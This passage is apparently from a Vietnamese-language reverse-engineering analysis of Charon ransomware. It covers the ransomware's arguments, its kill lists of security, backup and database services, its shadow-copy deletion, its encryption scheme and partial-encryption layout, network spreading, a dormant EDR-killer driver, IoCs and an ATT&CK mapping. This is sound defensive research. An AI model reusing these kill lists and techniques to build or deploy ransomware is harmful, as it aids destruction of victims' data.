addr_size_of_raw_data = addr_last_section + 0x10

addr_pointer_to_raw_data = addr_last_section + 0x14

size_of_raw_data = 4 byte little edian at addr_size_of_raw_data

pointer_to_raw_data = 4 byte little edian at addr_pointer_to_raw_data

file_size = size_of_raw_data + pointer_to_raw_data

===>>> dump byte to file start addr address_MZ to (address_MZ + file_size)
```

# II. Technical analysis of the Charon Ransomware

- Thông tin cơ bản File "Charon_Ransomware" - Payload thực hiện quá trình mã hóa:

| File Name             | SHA-256 Hash                                                     |
| --------------------- | ---------------------------------------------------------------- |
| Charon_Ransomware.exe | 80711e37f226ef1dc86dc80a8cbc0b2ec895b361e9ade85da793d94b1d876be8 |

## 1. Anti-Detection & Anti-Recovery (Pre-Encryption Behaviors)

- Khi khởi chạy, "Charon_Ransomware.exe" nhận các đối số để thực thi các logic như ghi log lỗi, liệt kê các máy chủ trong mạng, địa chỉ IP và tất cả các folder được share trên máy chủ này (ngoại trừ ADMIN),...

| Tham số                         | Mô tả                                                                                                                                                                                                           |
| ------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `--debug=<đường_dẫn + tên_tệp>` | Bật ghi log lỗi vào đường dẫn tệp chỉ định. Ghi lại mọi lỗi trong suốt quá trình mã hóa.                                                                                                                        |
| `--shares=<chia_sẻ_mạng>`       | Liệt kê tên máy chủ trong mạng/địa chỉ IP mục tiêu, đồng thời liệt kê và mã hóa tất cả các share folder có thể truy cập trên các máy chủ này (ngoại trừ `ADMIN$`).                                              |
| `--paths=<đường_dẫn_cụ_thể>`    | Liệt kê các đường dẫn cụ thể hoặc ký tự ổ đĩa cần mã hóa; có thể là đường dẫn cục bộ (`C:\folder`) hoặc ký tự ổ đĩa (`D:`).                                                                                     |
| `--sf`                          | Viết tắt của "**Shares First**". Khi đặt cờ này, thứ tự mã hóa thay đổi: ưu tiên mã hóa các share mạng trước rồi đến ổ đĩa cục bộ; nếu không đặt cờ, mặc định là ưu tiên ổ đĩa cục bộ trước rồi đến share mạng. |





- Chương trình tạo Mutex có tên là "OopsCharonHere". Trước khi bắt đầu quy trình mã hóa, ransomware thực hiện một loạt hành động nhằm tối đa hóa khả năng mã hóa thành công và giảm thiểu khả năng khôi phục hoặc can thiệp trong quá trình mã hóa. Trình tự các hành vi trước khi mã hóa:

  - Dừng/giải phóng các dịch vụ có thể giữ hoặc khóa tệp: cơ sở dữ liệu (SQL/Oracle), sao lưu & snapshot (VSS, Veeam, Commvault, Backup Exec, Acronis), và các dịch vụ nghiệp vụ như QuickBooks... nhằm tránh file lock và giảm khả năng khôi phục.

  - Kết thúc các tiến trình ứng dụng đang mở/giữ tệp (Office, trình duyệt, email client, công cụ DB/backup...) để giải phóng handle trước khi mã hóa.

  - Vô hiệu/giảm năng lực phòng vệ bằng cách dừng các dịch vụ bảo mật (Symantec, Sophos, Qihoo 360...) và các agent quản trị.

  - Xóa cơ chế khôi phục hệ thống: bản sao Volume Shadow Copy, các catalog/metadata sao lưu; dọn Thùng rác để hạn chế khả năng phục hồi.

  - Khởi tạo đa luồng cho tiến trình mã hóa để tăng tốc độ xử lý trên phạm vi hệ thống.


- Ransomware dừng các service liên quan đến bảo mật và kết thúc các tiến trình đang hoạt động ( VD như `"sql.exe"` - khi phân tích thì hành vi kết thúc tiến trình `"sql.exe"` là nhằm tránh hai tiến trình cùng tham chiếu đến 1 đối tượng dẫn đến tiến trình mã hóa không thể mã hóa đối tượng file đang được sử dụng ). Danh sách các service liên quan và mô tả:


| Service-Name                 | Mô tả                                                                                 |
| ---------------------------- | ------------------------------------------------------------------------------------- |
| vss                          | **Volume Shadow Copy Service** (dịch vụ bản sao bóng VSS của Windows)                 |
| sql                          | **Microsoft SQL Server** (dịch vụ cơ sở dữ liệu)                                      |
| svc$                         | **Hidden service/share name** (dịch vụ/điểm chia sẻ ẩn, thường bị lạm dụng)           |
| memtas                       | **MEMTAS** (likely bảo mật/AV endpoint legacy; thường trong kill-list của ransomware) |
| mepocs                       | **McAfee ePO Cloud/Agent** (likely thành phần quản trị McAfee)                        |
| sophos                       | **Sophos AV/Endpoint Protection**                                                     |
| veeam                        | **Veeam Backup & Replication** (dịch vụ sao lưu)                                      |
| backup                       | **Generic Backup Service** (dịch vụ sao lưu chung)                                    |
| GxVss                        | **Commvault VSS Service**                                                             |
| GxBlr                        | **Commvault Block Level Replicator**                                                  |
| GxFWD                        | **Commvault Firewall Daemon/Forwarding**                                              |
| GxCVD                        | **Commvault Client Service**                                                          |
| GxCIMgr                      | **Commvault Communications Interface Manager**                                        |
| DefWatch                     | **Symantec Definition Watcher** (quản lý cập nhật định nghĩa AV)                      |
| ccEvtMgr                     | **Symantec Event Manager**                                                            |
| ccSetMgr                     | **Symantec Settings Manager**                                                         |
| SavRoam                      | **Symantec AntiVirus Roaming Service**                                                |
| RTVscan                      | **Symantec Real-Time Virus Scan**                                                     |
| QBFCService                  | **QuickBooks FCS (File Copy) Service**                                                |
| QBIDPService                 | **QuickBooks IDP Service**                                                            |
| Intuit.QuickBooks.FCS        | **Intuit QuickBooks File Copy Service**                                               |
| QBCFMonitorService           | **QuickBooks Company File Monitor**                                                   |
| YooBackup                    | **YooBackup Service** (sao lưu)                                                       |
| YooIT                        | **YooIT Service** (liên quan giải pháp Yoo)                                           |
| zhudongfangyu                | **Qihoo 360 Proactive Defense**                                                       |
| stc_raw_agent                | **StorageCraft Raw Agent** (shadow/backup)                                            |
| VSNAPVSS                     | **vSnap VSS Provider** (likely IBM/Storware snapshot VSS provider)                    |
| VeeamTransportSvc            | **Veeam Transport Service**                                                           |
| VeeamDeploymentService       | **Veeam Deployment Service**                                                          |
| VeeamNFSSvc                  | **Veeam vPower NFS Service**                                                          |
| PDVFSService                 | **Paragon Data Virtual File System Service**                                          |
| BackupExecVSSProvider        | **Veritas/Symantec Backup Exec VSS Provider**                                         |
| BackupExecAgentAccelerator   | **Backup Exec Agent Accelerator**                                                     |
| BackupExecAgentBrowser       | **Backup Exec Agent Browser**                                                         |
| BackupExecDeviceMediaService | **Backup Exec Device & Media Service** _(có vẻ sai chính tả "Device" trong nguồn)_    |
| BackupExecJobEngine          | **Backup Exec Job Engine**                                                            |
| BackupExecManagementService  | **Backup Exec Management Service**                                                    |
| BackupExecRPCService         | **Backup Exec RPC Service**                                                           |
| AcrSch2Svc                   | **Acronis Scheduler 2 Service**                                                       |
| AcronisAgent                 | **Acronis Agent**                                                                     |
| CASAD2DWebSvc                | **CA ARCserve D2D Web Service**                                                       |
| CAARCUpdateSvc               | **CA ARCserve Update Service**                                                        |

- Malware kill các process được liệt kê. Điều này đảm bảo phần mềm chống vi-rút và EDR bị vô hiệu hóa, giảm khả năng bị phát hiện hoặc gián đoạn khi thực hiện mã hóa. Danh sách các process liên quan và mô tả:


| Process-Name         | Mô tả                                                                                 |
| -------------------- | ------------------------------------------------------------------------------------- |
| sql.exe              | **Microsoft SQL** executable (CLI/tiện ích DB)                                        |
| oracle.exe           | **Oracle Database** executable                                                        |
| ocssd.exe            | **Oracle Cluster Synchronization Services Daemon**                                    |
| dbsnmp.exe           | **Oracle Intelligent Agent / SNMP Agent**                                             |
| synctime.exe         | **SyncTime utility** (likely đồng bộ thời gian/ứng dụng doanh nghiệp)                 |
| agntsvc.exe          | **Oracle/Enterprise Manager Agent Service**                                           |
| isqlplussvc.exe      | **Oracle iSQL\*Plus Service**                                                         |
| xfssvccon.exe        | **Fuji Xerox/Xerox File System Service Controller** (likely, dịch vụ in/scanner)      |
| mydesktopservice.exe | **Enterprise desktop agent/service** (likely – Citrix/ASUS/OEM tùy môi trường)        |
| ocautoupds.exe       | **Oracle/OC Auto Update Service** (likely tự động cập nhật)                           |
| encsvc.exe           | **Encryption/Indexing Service** (thường thấy ở Symantec/Nuance; mục tiêu hay bị dừng) |
| firefox.exe          | **Mozilla Firefox** (trình duyệt)                                                     |
| tbirdconfig.exe      | **Thunderbird Config Utility**                                                        |
| mydesktopqos.exe     | **Desktop QoS/experience helper** (likely công cụ OEM/doanh nghiệp)                   |
| ocomm.exe            | **Oracle Communications/Connector** (likely)                                          |
| dbeng50.exe          | **Sybase SQL Anywhere DB Engine (v5.0)**                                              |
| sqbcoreservice.exe   | **Redgate SQL Backup Core Service**                                                   |
| excel.exe            | **Microsoft Excel**                                                                   |
| infopath.exe         | **Microsoft InfoPath**                                                                |
| msaccess.exe         | **Microsoft Access**                                                                  |
| mspub.exe            | **Microsoft Publisher**                                                               |
| onenote.exe          | **Microsoft OneNote**                                                                 |
| outlook.exe          | **Microsoft Outlook**                                                                 |
| powerpnt.exe         | **Microsoft PowerPoint**                                                              |
| steam.exe            | **Valve Steam Client**                                                                |
| thebat.exe           | **The Bat! Email Client**                                                             |
| thunderbird.exe      | **Mozilla Thunderbird**                                                               |
| visio.exe            | **Microsoft Visio**                                                                   |
| winword.exe          | **Microsoft Word**                                                                    |
| wordpad.exe          | **WordPad**                                                                           |
| notepad.exe          | **Notepad**                                                                           |

- Tiếp theo, Ransomware xóa có hệ thống tất cả các bản sao nhằm loại bỏ các bản sao ẩn và bản sao lưu có thể được dùng để phục hồi tệp. Để tiếp tục cản trở nỗ lực khôi phục, Ransomware cũng dọn sạch nội dung "Thùng rác", đảm bảo rằng các tệp mới bị xóa không thể dễ dàng được khôi phục ( Phân tích việc xóa các bản sao ẩn thông qua COM Interface => Cần debug payload ransomware bằng quyền Administrator ; Khi debug các hàm liên quan COM Interface add struct tham khảo `"vss.h"` và `"vsbackup.h"` ) .


- Sau khi hoàn tất chuẩn bị, Ransomware sẽ đếm số core bộ xử lý khả dụng trên hệ thống và chạy multi-threading cho việc mã hóa tệp. Bằng cách sử dụng multi-threading, Ransomware tối đa hóa tốc độ và hiệu quả mã hóa cho phép nhanh chóng mã hóa khối lượng lớn dữ liệu trên máy chủ bị lây nhiễm.



## 2. Encryption Logic Analysis

- Hàm này thực hiện hai logic chính là lọc các file để mã hóa và mã hóa nội dung của chúng.



- Trong quá trình mã hóa, Ransomware đặc biệt tránh mã hóa các tệp với phần mở rộng và tên tệp sau:

```plaintext
- ".exe"

- ".dll"

- ".Charon"

- "How To Restore Your Files.txt"
```


- Sau đó chương trình mã hóa các tập tin, thêm extension ".Charon", rồi thêm dấu hiệu đã bị mã hóa "hCharon is enter to the urworld!" vào các tập tin được mã hóa.




- Quy trình mã hóa sử dụng một sơ đồ mã hóa kết hợp (hybrid cryptographic scheme) giữa mật mã đường cong "elliptic Curve25519" với mã hóa "ChaCha20". Thuật toán mã hóa bắt đầu bằng việc tạo ra một khóa riêng (private key) ngẫu nhiên 32 byte bằng các hàm mật mã của Windows, sau đó được định dạng đúng theo đặc tả của Curve25519.


- Khóa riêng này được dùng để sinh khóa công khai (public key), sau đó kết hợp với khóa công khai được hardcode sẵn (nhúng trong tệp nhị phân) để tạo ra một khóa bí mật chung (shared secret) thông qua mật mã đường cong elliptic. Khóa bí mật này được xử lý qua một hàm băm tùy chỉnh để tạo ra khóa 256-bit, dùng để khởi tạo bộ mã dòng ChaCha20 đã được chỉnh sửa nhằm thực hiện mã hóa tập tin thực tế.


- Mỗi tập tin đã mã hóa sẽ có thêm một phần đuôi dài 72 byte chứa khóa công khai của nạn nhân và siêu dữ liệu liên quan đến mã hóa, cho phép việc giải mã tập tin thông qua một khóa riêng.

- Charon triển khai cơ chế mã hóa từng phần (partial encryption) để cân bằng giữa tốc độ và hiệu quả:

  - Tập tin <= 64KB: Mã hóa toàn bộ.

  - Tập tin 64KB–5MB: Mã hóa 3 khối ở đầu (0%), giữa (50%), và cuối (75%).

  - Tập tin 5MB–20MB: Mã hóa 5 khối phân bố đều (mỗi khối chiếm 1/5 kích thước).

  - Tập tin >20MB: Mã hóa 7 khối tại các vị trí 0%, 12.5%, 25%, 50%, 75%, 87.5% và gần cuối.


- Đoạn mã của quy trình mã hóa hiển thị logic mã hóa tệp một phần của nó và thêm phần chân khóa 72 byte cho mỗi tệp được mã hóa :



- Cuối cùng, quá trình mã hóa drop tập tin "How To Restore Your Files.txt" làm ghi chú đòi tiền chuộc ở tất cả các ổ đĩa, mạng được chia sẻ và thư mục.


## 3. Other Behaviors Beyond Encryption

- Ngoài chức năng mã hóa, Charon_Ransomware còn một số hành vi khác. Nó có khả năng lây lan trong mạng, tích cực quét và mã hóa các chia sẻ mạng (network shares) có thể truy cập được trong hạ tầng thông qua "NetShareEnum" và "WNetEnumResource". Nó xử lý cả ổ đĩa được ánh xạ (mapped drives) và các đường dẫn UNC, nhưng bỏ qua các chia sẻ ADMIN$ trong quá trình liệt kê để tránh bị phát hiện.

- Trong quá trình phân tích routine khởi tạo, phát hiện Charon_Ransomware chứa một package được build để bypass các hệ thống EDR (Endpoint Detection and Response). Ransomware này bao gồm một driver được biên dịch từ ( https://github.com/SaadAhla/dark-kill ), được thiết kế để vô hiệu hóa các giải pháp EDR [- script-python IDA "[dump_PE_in_payload_ransomware.py](https://github.com/nigmaz/nigmaz.github.io/tree/main/src/content/posts/malware-charon-ransomware/IDA%20Python_Script/dump_PE_in_payload_ransomware.py)" -].





- Phân tích thấy có hàm drop file được build trên thành driver "%SystemRoot%\System32\Drivers\WWC.sys" và đăng ký nó như một dịch vụ "WWC". Tuy nhiên, khi phân tích thấy hàm chống EDR này tồn tại nhưng không được gọi khi thực thi. Điều này cho thấy tính năng này vẫn đang trong giai đoạn phát triển và chưa được kích hoạt trong biến thể hiện tại, có thể để dành cho các phiên bản của Ransomware trong tương lai.


# III. IoC and MITRE-ATT&CK Framework

- Xác định thuật toán decrypt `"DumpStack.log"` để phân loại các mẫu cùng kỹ thuật mã hóa, triển khai file dữ liệu của mã độc liên quan đến APT Earth-Baxia.

## 1. IoC Table

| **SHA256 Hash**                                                  | **Detection**                 | **Description**                                                                                                                   |
| ---------------------------------------------------------------- | ----------------------------- | --------------------------------------------------------------------------------------------------------------------------------- |
| 80711e37f226ef1dc86dc80a8cbc0b2ec895b361e9ade85da793d94b1d876be8 | Ransom.Win64.CHARON.THGBCBE   | Payload (Charon Ransomware)                                                                                                       |
| 739e2cac9e2a15631c770236b34ba569aad1d1de87c6243f285bf1995af2cdc2 | Ransom.Win64.CHARON.A.enc     | Shellcode (DumpStack.log)                                                                                                         |
| e0a23c0d99c45d40f6ef99c901bacf04bb12e9a3a15823b663b392abadd2444e | Trojan.Win64.SWORDLDR.THGBCBE | SWORDLDR (msedge.dll)                                                                                                             |
| 8e6b1aa03a28590eac9b5ef0e58f37849169ca47c8990e7d34525000e5759402 | Ransom.Win64.CHARON.A.note    | Ransom note dropped after encryption (How To Restore Your Files.txt) - contains payment instructions, victim ID, and TOR/contacts |

## 2. MITRE-ATT&CK Framework

- Dưới đây là bảng "map" Windows API <-> MITRE ATT\&CK <-> Hành vi .

| Windows API / Interface (ví dụ tiêu biểu)                                                                                        | MITRE ATT\&CK (ID – Tên)                                                                 | Hành vi trong chiến dịch Charon                                                                                                                                                                                                       |
| -------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Netapi32!NetShareEnum**                                                                                                        | **T1135 – Network Share Discovery**                                                      | Liệt kê các network share, xử lý cả mapped drives và đường dẫn UNC; dùng để quét và mã hóa các share truy cập được; bỏ qua **ADMIN\$** khi enumerate.                                                                                 |
| **Mpr!WNetOpenEnum / WNetEnumResource**                                                                                          | **T1135 – Network Share Discovery**                                                      | Dò quét tài nguyên mạng (shares) trên hạ tầng để phục vụ lan truyền/mã hóa qua mạng.                                                                                                                                                  |
| **Kernel32!CreateMutexW** (tên mutex: `OopsCharonHere`)                                                                          | **T1480.002 – Execution Guardrails: Mutual Exclusion**                                   | Tạo mutex để đảm bảo chỉ chạy một phiên bản, tránh tái nhiễm hoặc va chạm tiến trình.                                                                                                                                                 |
| **COM/VSS**: `CoInitializeEx` => `CoCreateInstance(CLSID_VSSBackupComponents)` => **IVssBackupComponents::DeleteSnapshots**      | **T1490 – Inhibit System Recovery**                                                      | Xóa **shadow copies** qua COM interface để cản trở khôi phục.                                                                                                                                                                         |
| **Shell32!SHEmptyRecycleBinW**                                                                                                   | **T1070.004 – Indicator Removal: File Deletion**                                         | Dọn trống **Recycle Bin** để làm khó quá trình khôi phục tệp vừa xóa.                                                                                                                                                                 |
| **Advapi32!OpenSCManagerW / OpenServiceW / ControlServiceW**                                                                     | **T1489 – Service Stop** _(và)_ **T1562.001 – Impair Defenses: Disable or Modify Tools** | Dừng các **dịch vụ bảo mật** đang chạy để giảm khả năng bị phát hiện/gián đoạn.                                                                                                                                                       |
| **Kernel32!OpenProcess / TerminateProcess** _(hoặc API tương đương)_                                                             | **T1562.001 – Impair Defenses: Disable or Modify Tools**                                 | **Chấm dứt tiến trình** liên quan bảo mật trước khi mã hóa.                                                                                                                                                                           |
| **Advapi32!CreateServiceW / StartServiceW** _(đăng ký driver)_                                                                   | **T1543.003 – Create or Modify System Process: Windows Service**                         | Cố gắng thả driver **`%SystemRoot%\System32\Drivers\WWC.sys`** và **đăng ký service "WWC"** (thành phần chống EDR, hiện ở trạng thái dormant).                                                                                        |
| **LoadLibraryW / ntdll!LdrLoadDll**                                                                                              | **T1574.002 – Hijack Execution Flow: DLL Side-Loading**                                  | Chuỗi **DLL sideloading**: lợi dụng **Edge.exe** hợp pháp để nạp **msedge.dll (SWORDLDR)** và triển khai payload.                                                                                                                     |
| **CreateProcess(… CREATE_SUSPENDED)** + **VirtualAllocEx / WriteProcessMemory / SetThreadContext / ResumeThread**                | **T1055.012 – Process Injection: Process Hollowing**                                     | **Inject/hollow** vào **svchost.exe** để thực thi payload sau khi giải mã từ `DumpStack.log`.                                                                                                                                         |
| **CNG/CryptoAPI**: _ví dụ_ **BCryptGenRandom** (sinh seed), **(ECDH/X25519) secret agreement**, **ChaCha20** triển khai trong mã | **T1486 – Data Encrypted for Impact**                                                    | Dùng **Windows cryptographic functions** tạo **private key 32-byte**, sinh **shared secret** (Curve25519) => băm ra **khóa 256-bit** để khởi tạo **ChaCha20** mã hóa; áp dụng **partial encryption** và thêm **72-byte footer**/file. |

# IV. Resource References

- https://www.trendmicro.com/en_fi/research/25/h/new-ransomware-charon.html

- Security BootCamp 2025 : https://api.securitybootcamp.org.vn/Resources/documents/bai-3-earth-baxia-sbc-2025.pdf

- File code C mô tả logic decrypt `"DumpStack.log"`: "[decrypt_dumpstack_log_logic.c](https://github.com/nigmaz/nigmaz.github.io/tree/main/src/content/posts/malware-charon-ransomware/IDA%20Python_Script/decrypt_dumpstack_log_logic.c)"

Tham khảo 3 script Python để Brute và Patch DLL-name và API-name từ hash_131 của chúng:

- File "[patch_brute_hash_dll.py](https://github.com/nigmaz/nigmaz.github.io/tree/main/src/content/posts/malware-charon-ransomware/IDA%20Python_Script/patch_brute_hash_dll.py)" - Patch DLL-name từ hash_131

- File "[patch_gen_json_api.py](https://github.com/nigmaz/nigmaz.github.io/tree/main/src/content/posts/malware-charon-ransomware/IDA%20Python_Script/patch_gen_json_api.py)" - Generate JSON file chứa API hash_131 của thư viện

```
void *__fastcall fn_resolve_ntAPI_address_by_hash(void *arg1, void *ntdll_base, unsigned int hash);
```

- File "[patch_brute_hash_api.py](https://github.com/nigmaz/nigmaz.github.io/tree/main/src/content/posts/malware-charon-ransomware/IDA%20Python_Script/patch_brute_hash_api.py)" - Patch API-name từ hash_131

---
